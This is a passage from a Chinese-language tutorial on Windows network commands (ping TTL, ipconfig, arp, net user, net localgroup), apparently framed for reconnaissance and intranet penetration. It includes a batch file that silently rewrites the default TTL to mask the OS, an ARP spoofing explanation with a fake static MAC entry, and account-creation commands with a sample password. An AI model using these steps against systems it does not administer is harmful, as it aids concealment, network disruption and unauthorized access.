

图6



图7



图8

我们修改时数值范围最好在40-80之间。前面我们讲过，TTL指一个封包在通过一个网络时最长可以逗留的时间。每当封包经过一个路由器，其存活时间就会减一；当其存活时间是0时，主机便取消封包，并传送一个ICMP TTL封包给原封包发出者，其目的是预防封包因不正确路由表等因素造成循环而无法送达。在40-80的数值内，每增加一点，就会增加存活时间，送达的可能性增加，主机等待时间加长。所以太大太小都不好。在这里我就修改为80吧！修改完成后并不是马上生效，我们得重启一下虚拟机。然后再ping一下，是不是已经变为80了？呵呵，如图8所示。

如果大家觉得这样改太繁琐，也没关系，我们还有最简单的方法：新建一个记事本，并编写批处理命令，代码如下：

```bat
@echo REGEDIT4>ChangeTTL.reg
@echo.>>ChangeTTL.reg
@echo [HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Tcpip\Parameters]>>ChangeTTL.reg
@echo "DefaultTTL"=dword:000000ff>>ChangeTTL.reg
@REGEDIT /S /C ChangeTTL.reg
```

把上面的代码复制到记事本并保存为xPing.bat，然后点击打开这个文件，它就会自动将操作系统的缺省TTL值修改为ff，也就是十进制的255。255是Unix的TTL值。运行该文件后就会自动修改，是不是很方便呢？

## 2.2 Ipconfig命令

### 2.2.1 Ipconfig参数介绍

- Ipconfig是调试计算机网络的常用命令，我们可以通过它得到网络适配器的IP地址、子网掩码等信息。
- 这个命令在踩点/渗透内网时经常用到。
- 我们打开DOS命令提示符，输入`ipconfig /?`查看帮助，回显如下：

```text
USAGE:
ipconfig [/? | /all | /renew [adapter] | /release [adapter] | /flushdns | /displaydns | /registerdns | /showclassid adapter | /setclassid adapter [classid]]
```

上面是ipconfig的详细参数，我来解释一下：

- `/?` 显示此帮助信息
- `/all` 显示完整配置信息
- `/release` 释放指定适配器的IP地址
- `/renew` 更新指定适配器的IP地址
- `/flushdns` 清除DNS解析程序缓存
- `/registerdns` 刷新所有DHCP租约并重新注册DNS名称
- `/displaydns` 显示DNS解析程序缓存的内容
- `/showclassid` 显示适配器的所有允许的DHCP类ID
- `/setclassid` 修改DHCP类ID

### 2.2.2 Ipconfig使用实例

我们打开DOS命令提示符，键入ipconfig，回显如下：



我们可以看到三个主要参数：IP Address参数表示当前IP地址，由图可知我当前的IP地址为192.168.10.101；Subnet Mask参数表示子网掩码；Default Gateway是默认网关IP。看懂这点就容易多了。我们通过ipconfig的all参数来获取本机MAC地址，在命令提示符内键入ipconfig /all，也就是查看所有参数，其中Physical Address就是我们的MAC。关于MAC欺骗，下一章我们会详细讲解。

> 小知识：  
> MAC（Medium/Media Access Control）地址，或称MAC地址、硬件地址，用来定义网络设备的位置。在OSI模型中，第三层网络层负责IP地址，第二层数据链路层则负责MAC地址。因此一个网卡会有一个全球唯一固定的MAC地址，但可对应多个IP地址。

#### 2.3 ARP

##### 2.3.1 介绍

ARP命令是一个非常重要的TCP/IP协议命令，我们可以通过这个命令进行IP地址和MAC地址的欺骗，这就使得ARP攻击诞生了。ARP攻击的原理就是通过伪造IP与MAC实现ARP欺骗，使得网络中产生大量ARP通信量，导致网络阻塞，造成网络中断等危害。说远了，我们回到正题，来看arp命令语法：

```text
arp [-a [inetAddr] [-N ifaceAddr]] [-g [inetAddr] [-N ifaceAddr]] [-d inetAddr [ifaceAddr]] [-s inetAddr etherAddr [ifaceAddr]]
```

- `-a` 参数指显示所有接口当前的ARP缓存表。
- `-g` 命令与其相同。
- `-d` 命令是删除指定IP地址项。
- `-s` 向ARP缓存添加可将IP地址inetAddr解析成物理地址etherAddr的静态项。

##### 2.3.2 使用

下面我来示范一下。首先显示所有接口的ARP缓冲表：打开命令提示符，输入`arp -a`按下Enter键，回显如图3所示：





可以说明，我们现在测试的主机与192.168.0.1和192.168.0.104等本地其他主机进行了通信。我们再试第二条命令，键入`arp -d`清除其ARP缓存表，再用`arp -a`按Enter键，回显如下：

> No ARP Entries Found

意思就是没有找到ARP表项。然后键入`ping 192.168.0.1`，回显如图2所示：



再键入`arp -g`查询ARP缓冲表，回显请看图1。说明我们使用`ping`命令之后，主机自动把192.168.0.1主机的MAC地址添加到了ARP缓存表中。同样地，再次用`arp -d`清除，然后用`arp -s 192.168.0.1 50-55-66-44-67-3e`添加错误MAC地址，再用`arp -g`命令查看，发现Type变成了静态，如图3所示。



我们再次使用`ping 192.168.0.1`，它就恢复了原来的样子。

## 2.4 Net&Netstat

### 2.4.1 Net命令

Net命令是一个以命令行方式执行的工具，功能强大，包含了管理网络环境、服务、用户、登录等Windows中大部分重要的管理功能。使用它可以轻松添加、显示或更改本地组，连接计算机或共享资源，创建共享资源，启动或关闭服务，添加用户帐号并查看其信息，以及一些当前运行的可配置服务。

###### 1. net user

此命令可用于添加、修改或者查看用户帐号信息。该命令也可写成`net users`。

```text
net user [username [password | *] [options]] [/domain]
```

其中参数`username`指要添加、删除、修改或查看的用户帐号名称，`password`为用户帐号密码。输入星号（`*`）将给出密码提示，在密码提示符输入密码时不显示密码；`/domain`指在计算机主域的主域控制器中执行操作。

键入不带参数的`net user`命令则为显示用户帐号列表。（图1）

键入命令`net user test admin888 /add`则为添加一个用户名`test`、密码`admin888`的帐号（图2）。

提示命令成功完成后，键入`net user`可验证此用户帐号是否添加成功。（图3）

键入命令`net user test`可查询刚刚建立的用户帐号相关信息。（图4）



图1



图2



图3



图4

当不需要此帐号时，可以使用命令`net user [username] /del`删除用户帐号。例如删除帐号`test`，则键入`net user test /del`。（图5）



图5

###### 2. net localgroup

此命令用于添加、修改或者查看本地组。

```text
net localgroup groupname {/add [/comment:text] | /delete} [/domain]
```

其中参数`groupname`指添加、修改或者删除的本地组名称，`/comment:text`为新建或现有组添加注释；`/domain`指在当前域的主域控制器中执行操作，否则仅在本地计算机上执行操作。



组名或用户名可添加到本地组中，`/del`或`/delete`指从本地组中删除组名或用户名。

键入不带参数命令`net localgroup`可以列出计算机中所有本地组名。（图6）

键入命令`net localgroup 123 /add`可以建立一个组名为123的本地组，使用命令`net localgroup`验证是否建立成功。（图7）

键入命令`net localgroup 123 /del`可以把刚建立的用户组123删除。（图8）

键入命令`net localgroup [组名] [用户名] /add`可以将用户帐号添加到各个本地组中。



